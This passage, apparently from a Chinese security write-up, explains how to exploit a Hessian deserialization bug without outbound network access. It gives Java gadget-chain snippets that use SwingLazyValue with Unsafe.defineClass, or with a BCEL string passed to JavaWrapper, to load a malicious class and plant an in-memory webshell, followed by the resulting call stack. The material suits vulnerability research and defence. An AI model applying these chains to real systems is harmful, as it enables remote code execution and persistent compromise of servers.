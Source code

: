 
#### 不出网利用 {#不出网利用}

通过反射调用任意方法可以做到 RCE，但在无法出网的情境下，单纯的 RCE 也难以有效利用。如果可以借助 [`SwingLazyValue#createValue`](#code-snippet--SwingLazyValue) 初始化任意类，那么就可以写入内存马



-  1. Unsafe

    `sun.misc.Unsafe#defineClass` 可以通过字节数组动态定义一个类， `SwingLazyValue#createValue` 又可以利用来加载和初始化一个类，结合两者我们就能够实现任意类初始化，以此执行任意代码

    整个利用过程需要触发两次反序列化漏洞，第一次通过反射调用 defineClass 定义任意类，假设为 Exploit

    ```java
    Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
    Method defineClass = Unsafe.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class, ClassLoader.class, ProtectionDomain.class);
    Field f = Unsafe.class.getDeclaredField("theUnsafe");
    f.setAccessible(true);
    Object unsafe = f.get(null);
    Object[] args = new Object[]{invoke, new Object(), new Object[]{defineClass, unsafe, new Object[]{"exp", payload, 0, payload.length, null, null}}};  // payload 为 Exploit 类字节数组
    SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", args);
    ```

    成功定义 Exploit 类后加载并初始化，需要将 methodName 设置为 null

    ```java
    SwingLazyValue swingLazyValue = new SwingLazyValue("Exploit", null, new Object[0]);
    ```



-  2. BCEL

    BCEL（Byte Code Engineering Library）是一个由 Apache Commons 提供的库，用于分析、创建和修改 Java 字节码，而 `com.sun.org.apache.bcel.internal.util.JavaWrapper#_main` 可以从 BCEL 格式的对象字符串中动态构建对象

    ```java
    SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}});  // payload 是恶意类的 BCEL 字符串
    ```

    <details>
    <summary>调用栈</summary>
    <div class="details">

    ```text
    _main:153, JavaWrapper (com.sun.org.apache.bcel.internal.util)
    invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
    invoke:62, NativeMethodAccessorImpl (sun.reflect)
    invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
    invoke:497, Method (java.lang.reflect)
    createValue:73, SwingLazyValue (sun.swing)
    getFromHashtable:216, UIDefaults (javax.swing)
    get:161, UIDefaults (javax.swing)
    toString:253, MimeTypeParameterList (javax.activation)
    valueOf:2994, String (java.lang)
    append:131, StringBuilder (java.lang)
    expect:2880, Hessian2Input (com.caucho.hessian.io)
    readString:1398, Hessian2Input (com.caucho.hessian.io)
    readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
    readObject:2122, Hessian2Input (com.caucho.hessian.io)
    ```
    </div>
    </details>
